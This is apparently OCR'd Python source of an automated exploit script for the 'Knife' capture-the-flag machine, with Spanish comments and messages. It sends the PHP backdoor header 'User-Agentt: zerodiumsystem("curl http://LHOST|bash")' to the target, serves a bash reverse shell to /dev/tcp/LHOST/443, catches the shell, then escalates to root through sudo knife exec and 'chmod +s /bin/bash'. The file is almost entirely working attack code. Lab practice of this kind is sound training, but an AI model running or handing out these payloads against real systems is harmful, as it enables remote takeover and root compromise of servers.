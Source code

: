```python
import os
import time
import threading
import requests
import signal
import subprocess
from pwn import *

if len(sys.argv) != 3:
    print("\nUso: python3 autopwn_knife.py <LHOST> <URL>\n\nEjemplo: python3 autopwn_knife.py 10.10.16.198 http://10.10.10.242/")
    sys.exit(1)

#Variables
URL = sys.argv[2]
LHOST = sys.argv[1]
LPORT = 443

#Funciones
def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

def obtainShell():
    try:
        p1 = log.progress("\nCreando archivo index.html con contenido malicioso\n")
        os.system('echo "#!/bin/bash\n\nbash -i >& /dev/tcp/%s/443 0>&1" > index.html' %LHOST)
        s = requests.Session()
        cmd_header = {
            'User-Agent' : 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
            'User-Agentt' : 'zerodiumsystem("curl http://%s|bash");' %LHOST
        }
        subprocess.Popen(["timeout", "10", "python3", "-m", "http.server", "80"])
        time.sleep(1)
        r = s.get(URL, headers=cmd_header)
        time.sleep(1)
    

    except Exception as e:
        print(e)

if __name__ == '__main__':
    try:
        threading.Thread(target=obtainShell).start()
    except Exception as e:
        log.error(str(e))
    shell = listen(LPORT, timeout=5).wait_for_connection()

    if shell.sock is None:
        log.failure("No se ha obtenido conexion")
        sys.exit()
    else:
        log.success("\n ✔️  Se ha obtenido una shell ✔️ \n")
        os.system("rm index.html")
        time.sleep(1)
        shell.sendline("""sudo /usr/bin/knife exec -E 'exec "chmod +s /bin/bash"'""")
        shell.sendline("bash -p")
        shell.sendline("whoami")

    shell.interactive()
```